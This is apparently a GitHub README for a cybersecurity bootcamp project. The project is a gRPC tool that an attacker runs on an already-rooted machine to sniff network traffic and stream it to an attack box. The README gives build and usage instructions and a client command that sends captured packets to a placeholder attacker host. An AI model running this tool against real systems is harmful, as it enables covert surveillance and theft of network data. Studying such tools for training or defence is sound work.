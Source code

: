 # Rem-Cap 

Final project for the GA tech Cyber-Security bootcamp

Remotely capture network packets using a client-streaming gRPC API.

## How it works

The attack box runs the gRPC server.

Once the attacker has rooted the target machine, he/she `scp`'s the client binary over from the attack box.

The attacker runs the client binary on the target machine specifying : 

- which network interfaces he/she would like to packet sniff
- the amount of time to sniff packets on those interfaces
- the address and port the attack box is running the gRPC server to stream sniffed packets to
- whether or not to secure the connection with SSL/TLS

The server keeps track of which packets came from which client stream.

server-side logging shows the connection status of any clients and the number of packets captured from that particular connection.

client-side logging shows how much time has elapsed out of the total session time as well as how
many packets have been captured.

When a client's session time is up, the connection is closed and a session summary is received from the server.

After the server sends the session summary off, it writes all the captured packets to disk in the form of a pcap file located in `server/pcaps/` .

The pcap file can then be analyzed in wireshark.

## Compiling

The creation of certificates, keys, and both remcap binaries ( server and client ) can be automated with the `remcap` target in the Makefile.

``Example`` :

    make remcap pw=test host=localhost

All generated certificates and keys will be saved into a new `ssl/` dir

## Server Usage

    Usage:

    remcap [flags]

    Flags:
        --cert          string        Path to signed certificate
    -h, --help                        help for remcap
        --key           string        Path to server private key
    -o, --out           string        Specify out file
    -p, --port          string        Port to start Remcap server


## Running Server

    ./remcap_server --cert=ssl/server.crt --key=ssl/server.pem -p 4444

## Client Usage

    Usage:
    remcap [flags] [command]

    Available Commands:
    bpf         Apply Berkely Packet Filters
    help        Help about any command

    Flags:
        --cert      string      Path to trust cert from CA
    -d, --devices   strings     Network interfaces to sniff
    -h, --help                  Help for remcap
        --host      string      <ip>:<port> of attack box to stream packets to
        --hours     int         Amount of hours to run capture
    -m, --minutes   int         Amount of minutes to run capture
    -s, --seconds   int         Amount of seconds to run capture

## Running client :

`Pre-reqs` :

- Remote into target machine and escalate to root 
- `scp` the client binary ( `remcap` ) and the `ca.crt` file over

then....

        ./remcap -s 10 -d en0 --host ipofattackbox:portofserver --cert /path/to/ca.crt